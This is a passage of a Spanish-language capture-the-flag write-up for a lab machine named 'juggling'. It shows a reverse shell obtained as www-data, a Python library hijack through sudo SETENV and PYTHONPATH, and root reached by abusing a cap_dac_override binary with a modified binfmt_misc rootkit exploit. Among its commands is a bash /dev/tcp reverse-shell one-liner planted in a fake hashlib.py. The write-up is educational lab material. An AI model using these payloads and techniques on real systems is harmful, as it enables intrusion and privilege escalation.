También añadimos el comando a ejecutar mediante el query param `c`.


Ahora para conseguir la reverse shell, nos ponemos en escucha con `pwncat-cs` por el puerto 443.

```console
$ sudo pwncat-cs -lp 443
```

Ejecutamos el one-liner típico para enviarnos una consola (URL-Encodeando el carácter `&`)


Y conseguimos una consola interactiva como `www-data`
```console
$ sudo pwncat-cs -lp 443

[17:00:46] Welcome to pwncat 🐈!                                                                                                                                               __main__.py:164
[17:01:20] received connection from 192.168.182.6:56160                                                                                                                             bind.py:84
[17:01:20] 192.168.182.6:56160: registered new host w/ db                                                                                                                       manager.py:957
(local) pwncat$                                                                                                                                                                               
(remote) www-data@juggling:/var/www/juggling$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Library Hijacking + Abusing SETENV -> User Pivoting
Vemos que existe un usuario en el sistema llamado `rehan`
```console
(remote) www-data@juggling:/var/www/juggling$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
rehan:x:1001:1001::/home/rehan:/bin/bash
```

Vemos que como `www-data` podemos ejecutar el script `/opt/md5.py` como `rehan` y además podemos establecer las variables de entornos, variables interesantes como el Path de librerías de Python (por ejemplo).
```console
(remote) www-data@juggling:/var/www/juggling$ sudo -l
Matching Defaults entries for www-data on juggling:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on juggling:
    (rehan) SETENV: NOPASSWD: /opt/md5.py
```

Este es el contenido del script.
```python
#!/usr/bin/python3

import hashlib

result = hashlib.md5("Hello World".encode()).hexdigest()
print(f"md5sum: {result}")
```

Y como podemos controlar el path donde python va a buscar por la librería `hashlib`, podríamos secuestrar esta librería para ejecutar un comando como `rehan`

La variable de entorno que se encarga de buscar las librerías de python es `PYTHONPATH`

> `PYTHONPATH` is an environment variable which you can set to add additional directories where python will look for modules and packages.

En la máquina víctima, vamos al directorio `/tmp` y vamos a crear un archivo llamado `hashlib.py` donde este archivo sería la librería que quiere cargar python, y vamos a mandarnos una reverse shell.
```console
(remote) www-data@juggling:/tmp$ cat hashlib.py 
import os
os.system('bash -c "bash -i >& /dev/tcp/192.168.182.5/443 0>&1"')
```

Ahora, si estamos en escucha por el puerto 443 con `pwncat-cs` y ejecutamos el script `/opt/md5.py` como `rehan` pero estableciendo la variable de entorno `PYTHONPATH` a `/tmp` conseguimos una consola como `rehan`

```console
(remote) www-data@juggling:/tmp$ sudo -u rehan PYTHONPATH=/tmp /opt/md5.py
```

```console
$ sudo pwncat-cs -lp 443
[17:09:03] Welcome to pwncat 🐈!                                                                 __main__.py:164
[17:09:05] received connection from 192.168.182.6:56164                                               bind.py:84
[17:09:05] 192.168.182.6:56164: registered new host w/ db                                         manager.py:957
(local) pwncat$                                                                                                 
(remote) rehan@juggling:/tmp$ id
uid=1001(rehan) gid=1001(rehan) groups=1001(rehan)
```

Podemos encontrar la flag de usuario.
```console
(remote) rehan@juggling:/home/rehan$ cat user.txt 
de0a7d9cb0e1ae...
```

# Privilege Escalation
Haciendo un reconocimiento básico de la máquina, encontramos una capability extraña.

```console
(remote) rehan@juggling:/home/rehan$ getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/local/bin/register cap_dac_override=ep
```

Haciendo una consulta a [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities) vemos que esta capability sirve para poder escribir cualquier archivo.

Además se nos dice que podríamos por ejemplo, sobrescribir un binario que sea de `root` para conseguir ejecutar código como superusuario, o podríamos sobreescribir el `/etc/passwd`...

Pero bueno, esta capability la tenemos para un binario en concreto, `/usr/local/bin/register`

Este binario tiene pinta de ser un binario personalizado, así que vamos a descargarlo a nuestra máquina de atacante y a echarle un vistazo.

## Abusing  `DAC_OVERRIDE` + Overwriting `binfmt_misc`
```console
$ file register 
register: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=77b1bc1a5d6700dad83368f9586364ab0a245447, for GNU/Linux 3.2.0, not stripped
```

Con `ghidra` podemos descompilar el binario y vemos lo siguiente.
```c
undefined8 main(void)

{
  size_t __n;
  char local_218 [524];
  int local_c;
  
  read(0,local_218,0x200);
  local_c = open(/proc/sys/fs/binfmt_misc/register,1);
  __n = strlen(local_218);
  write(local_c,local_218,__n);
  close(local_c);
  return 0;
}
```

Una búsqueda en Google nos revela un [repositorio en Github](https://github.com/toffan/binfmt_misc)


Gracias a este repositorio podemos conseguir escalar privilegios si ``/proc/sys/fs/binfmt_misc/register`` es `writable`, en nuestro caso lo es pero indirectamente, es decir, lo podemos escribir pero a través del script `/usr/local/bin/register`

Vamos a clonarnos el repositorio.
```console
$ git clone https://github.com/toffan/binfmt_misc
Cloning into 'binfmt_misc'...
remote: Enumerating objects: 42, done.
remote: Total 42 (delta 0), reused 0 (delta 0), pack-reused 42 (from 1)
Receiving objects: 100% (42/42), 17.83 KiB | 608.00 KiB/s, done.
Resolving deltas: 100% (20/20), done.
```

Nos subimos el exploit.
```console
(local) pwncat$ upload /home/pointedsec/Desktop/juggling/content/binfmt_misc/binfmt_rootkit
./binfmt_rootkit ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 2.0/2.0 kB • ? • 0:00:00
[17:28:18] uploaded 2.05KiB in 0.24 seconds 
```

Si lo intentamos ejecutar vemos que nos dice que no podemos escribir en el recurso.
```console
(remote) rehan@juggling:/home/rehan$ chmod +x binfmt_rootkit 
(remote) rehan@juggling:/home/rehan$ ./binfmt_rootkit 
Error: /proc/sys/fs/binfmt_misc/register is not writeable
```

Vamos a hacer unos ajustes al script, primero vamos a borrar esta función ya que nos vamos a saltar la comprobación de si se puede escribir o no.


Borramos la comprobación.


Ahora en este punto, al final del exploit, vemos que el contenido de `$binfmt_line` lo mete en `$mountpoint/register`.


En nuestro caso queremos que lo introduzca como "buffer" al script que hemos descompilado, es decir `/usr/local/bin/register`, para que así, indirectamente sobreescriba el contenido de `/proc/sys/fs/binfmt_misc/register` con el exploit.

Entonces lo vamos a dejar así, pipeando el contenido del exploit a nuestro binario.


Entonces, ahora solo falta guardar y ejecutar el exploit.
```console
(remote) rehan@juggling:/home/rehan$ ./binfmt_rootkit 
uid=0(root) euid=0(root)
# id
uid=0(root) gid=1001(rehan) groups=1001(rehan)
```

Y nos convertimos en `root`, podemos leer la flag.
```console
# cat root.txt
5401cd51a7ec8dd...
```

¡Y ya estaría!

Happy Hacking! 🚀
